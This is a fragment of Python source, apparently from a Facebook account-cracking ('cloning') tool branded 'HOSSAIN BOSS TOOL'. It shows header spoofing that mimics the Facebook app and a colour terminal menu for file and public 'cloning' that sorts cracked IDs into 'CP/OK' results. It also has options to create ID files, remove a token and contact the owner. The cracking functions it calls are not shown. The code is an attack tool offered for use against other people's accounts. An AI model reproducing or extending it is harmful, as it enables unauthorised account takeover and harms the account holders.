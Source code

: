 done = False
###
birth = ['001', '02', '03', '04', '05', '06', '07', '08', '09', '10', '11', '12', '13', '14', '15', '16', '17', '18', '19', '20', '21']
bd = random.randint(2e7, 3e7)
sim = random.randint(2e4, 4e4)
header = {'x-fb-connection-bandwidth': repr(bd), 'x-fb-sim-hni': repr(sim), 'x-fb-net-hni': repr(sim),'x-fb-connection-quality': 'EXCELLENT', 'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.3','x-fb-connection-type': 'unknown','content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

def main():
    os.system('clear');print(banner)
    print('\033[1;32m        ┌─────────┐') 
    print("\033[1;92m\t│\033[1;96mMAIN MENU\033[1;92m│")
    print('\033[1;32m┌────────────────────────────────────────────┐') 
    print('\033[1;92m│\033[1;37m[01] \033[1;96mFILE CLONING   \033[1;37m[\033[1;32mCP/OK MIX IDS\033[1;37m] \033[1;31m(\033[1;32mFAST\033[1;31m) \033[1;32m │ ')
    print('\033[1;92m│\033[1;37m[02] \033[1;96mFILE CLONING   \033[1;37m[\033[1;32mONLY OK IDS  \033[1;37m] \033[1;31m(\033[1;32mSLOW\033[1;31m) \033[1;32m │')
    print('\033[1;92m│\033[1;37m[03] \033[1;96mPUBLIC CLONING \033[1;37m[\033[1;32mCP/OK MIX IDS\033[1;37m]\033[1;31m (\033[1;32mFAST\033[1;31m) \033[1;32m │')
    print('\033[1;92m│\033[1;37m[04] \033[1;96mCREATE FILE \033[1;32m                           │')
    print('\033[1;92m│\033[1;37m[05] \033[1;96mSEPARATE IDS\033[1;32m                           │ ')
    print('\033[1;92m│\033[1;37m[06] \033[1;96mCONTACT WITH OWNER \033[1;32m                    │')
    print('\033[1;92m│\033[1;37m[07] \033[1;96mREMOVE TOKEN\033[1;32m                           │')
    print('\033[1;92m│\033[1;37m[00] \033[1;91mEXIT\033[1;32m                                   │ ')
    print('\033[1;32m└────────────────────────────────────────────┘')
    print('')
    psy = input('\033[1;37m[+] \033[1;32mCHOOSE OPTION : ')
    if psy in ('1', '01'):
        __crack__().plerr()
    if psy in ('2', '02'):
        __filecrack3__().plerr()
    if psy in ('3', '03'):
        publiccrack()
    if psy in ('04', '4'):
        create_file()
    if psy in ('5', '05'):
    	os.system('clear');print(banner);sep()
    if psy in ('6', '06'):
    	os.system("xdg-open https://www.facebook.com/ps7c8o.p133h1")
    if psy in ('7', '07'):
        time.sleep(2)
        os.system('clear');print(banner);print(' Removing Token .');time.sleep(1);os.system('clear');print(banner);print(' Removing Token ..');time.sleep(1);os.system('clear');print(banner);print(' Removing Token ...');time.sleep(2);os.system('clear');print(banner);print('\033[1;91mToken Removed\033[0m');time.sleep(3);os.system('rm -rf access_token.txt'); version()
    if psy in ('0', '00'):
        exit('THANKS FOR USING HOSSAIN BOSS TOOL')  
    else:
    	print ('        Invalid Select')
    version()
    